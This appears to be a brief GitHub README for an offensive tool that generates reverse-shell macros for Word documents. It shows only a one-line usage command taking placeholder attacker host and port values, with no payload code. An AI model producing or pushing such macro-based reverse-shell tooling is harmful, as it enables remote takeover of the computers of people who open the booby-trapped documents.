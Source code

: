 # Macro Reverse Shell
Generate a reverse shell macro for Word documents.

```bash
python payload <LHOST> <LPORT>
```